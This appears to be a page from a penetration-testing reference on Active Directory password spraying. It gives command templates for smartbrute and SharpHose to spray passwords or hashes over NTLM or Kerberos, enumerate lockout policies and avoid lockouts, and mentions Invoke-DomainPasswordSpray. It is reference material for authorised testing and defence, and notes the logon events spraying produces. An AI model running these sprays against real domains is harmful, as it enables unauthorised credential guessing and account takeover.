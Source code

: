 ### Spraying

###### [Windows] Automated enumeration and spraying

*smartbrute - Recommended*

[`smartbrute`](https://github.com/ShutdownRepo/smartbrute) is a Python utility
that can be used to both conduct unauthenticated and authenticated password
spraying (to first retrieve password policies and avoid accounts lock out).

`smartbrute` supports both authentication bruteforce over `NTLM` or `Kerberos`
(pre-authentication). `NTLM` authentication failures will generate `4625`
failed logon events, while `Kerberos` pre-authentication failures will generate
`4771` `Kerberos` pre-authentication failed events.

```
# Unauthenticated password spraying.
smartbrute.py brute -d <DOMAIN> [--no-enumeration] [--line-per-line] <-bu <USERNAME> | -bU <USERNAME_FILE>> <-bp <PASSWORD> | -bP <PASSWORDS_FILE> | -bh <HASH> | -bH <HASHES_FILE>> <ntlm | kerberos>

# Authenticated password spraying to retrieve the password policies and avoid account lockouts.
# AUTH_PROTOCOL & BRUTEFORCE_PROTOCOL can both be ntlm or Kerberos.
smartbrute.py smart [--line-per-line] <-bp <PASSWORD> | -bP <PASSWORDS_FILE> | -bh <HASH> | -bH <HASHES_FILE>> <AUTH_PROTOCOL> -d <DOMAIN> -u <AUTH_KNOWN_USER> -p <AUTH_KNOWN_PASSWORD> <BRUTEFORCE_PROTOCOL>
```

*SharpHose - Recommended*

`SharpHose` is a C# tool that enumerate the AD domain users and password
policies, including `fine-grained password policies` (Active Directory domain
functional level must be `Windows Server 2012` or newer). The `fine-grained
password policies` are linked to the users or groups they apply to in order to
precisely determine if an account can be safely bruteforced.

In addition to password spraying, `SharpHose` can be used to enumerate the
domain policies or list the users the specified domain policy is applied to.

```
# Sprays the specified password
SharpHose.exe --action SPRAY_USERS --auto --spraypassword <PASSWORD> --output <OUTPUT_FOLDER>
SharpHose.exe --action SPRAY_USERS --domain "<DOMAIN>" --controller "<DC_IP | DC_HOSTNAME>" --username "<USERNAME>" --password "<PASSWORD>" --auto --spraypassword <PASSWORD> --output <OUTPUT_FOLDER>

# Enumerates the domain password policy and domain fine-grained password policies
SharpHose.exe --action GET_POLICIES

# Lists the users the specified password policy is applied to
SharpHose.exe --action GET_POLICY --policy
```

*Invoke-DomainPasswordSpray*

The PowerShell cmdlet `Invoke-DomainPasswordSpray` will generate the usernames
list of enabled domain accounts and  will automatically attempt to detect the
domain's lockout policy. Sprays are restricted to one attempt during the
lockout window and accounts that would not be locked out by a wrong password
guess.
